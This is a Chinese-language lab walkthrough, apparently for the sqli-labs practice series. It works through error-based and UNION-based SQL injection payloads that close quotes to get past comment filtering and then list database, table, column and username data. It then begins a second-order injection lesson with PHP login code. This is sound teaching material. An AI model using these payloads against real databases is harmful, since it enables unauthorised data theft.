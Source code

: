 把id中的注释符都过滤掉了,但是我们仍然可以闭合`''`来解决

paylod: `1' and updatexml(1,concat(0x0a,database()),1) and '`

```sql
SELECT * FROM users WHERE id='1' and updatexml(1,concat(0x0a,database()),1) and '' LIMIT 0,1
```

只闭合前一个单引号会报错，所以我们将第二个单引号也闭合，就可以不用注释符出数据

接下来就是常规一条龙

`1' and updatexml(1,concat(0x0a,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1) and ' `

`1' and updatexml(1,concat(0x0a,(select group_concat(column_name) from information_schema.columns where table_name='users')),1) and '`

`1' and updatexml(1,concat(0x0a,(select group_concat(username) from users)),1) and '`

以上是**报错注入**，但是会有字符串长度限制，可以用substr分段获取

---

也可以用**联合查询**

先确定字段数

`-1' union select 1,2,'3`

`-1' union select '1', (select database()), '3`

`-1' union select '1', (select group_concat(table_name) from information_schema.tables where table_schema='security'), '3`

`-1' union select '1', (select group_concat(column_name) from information_schema.columns where table_schema='security'), '3`

`-1' union select '1', (select group_concat(username) from users limit 0,1), '3`

### 24-Second Degree Injections

<img src="https://gitee.com/TyRantXx/imgs/raw/master/imgs/image-20220403091029566.png" alt="image-20220403091029566" style="zoom:67%;" />

<img src="https://gitee.com/TyRantXx/imgs/raw/master/imgs/image-20220403091050057.png" alt="image-20220403091050057" style="zoom:67%;" />

内容比较多, 先看Login按钮进入的login.php

```php
function sqllogin()
{
    $username = mysql_real_escape_string($_POST["login_user"]);
    $password = mysql_real_escape_string($_POST["login_password"]);
    $sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
//$sql = "SELECT COUNT(*) FROM users WHERE username='$username' and password='$password'";
    $res = mysql_query($sql) or die('You tried to be real smart, Try harder!!!! :( ');
    $row = mysql_fetch_row($res);
    //print_r($row) ;
    if ($row[1]) {
        return $row[1];
    } else {
        return 0;
    }

}
$login = sqllogin();
if (!$login == 0) {
    $_SESSION["username"] = $login;
    setcookie("Auth", 1, time() + 3600); /* expire in 15 Minutes */
    header('Location: logged-in.php');
} else {
```